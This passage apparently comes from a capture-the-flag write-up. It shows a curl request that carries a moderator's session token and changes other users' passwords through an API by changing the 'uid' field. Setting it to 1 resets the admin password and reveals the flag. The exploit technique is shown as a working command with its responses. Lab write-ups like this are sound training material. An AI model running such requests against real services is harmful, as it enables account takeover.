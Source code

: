 Executing `curl -X POST http://206.189.126.144:30887/api/users/update -H "Content-Type: application/json" -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w' -d '{"password":"password123","password1":"password123","uid":"SERIAL"}'`, replacing `SERIAL` with `000083921` or `000076439` doesn't work. They both will return `{"message":"The user doesn't exist!"}`. 

I decided to go back to the infamous 0 as the uid and increment from there. I tried `0` as the UID but that also returned a `{"message":"The user doesn't exist!"}`. However, `1` works! Not only did we update the password, we updated the admin password `{"message":"Password for admin changed successfully!"}`. Going back to the login form and entering the new credentials `admin:password123` reveals the flag.
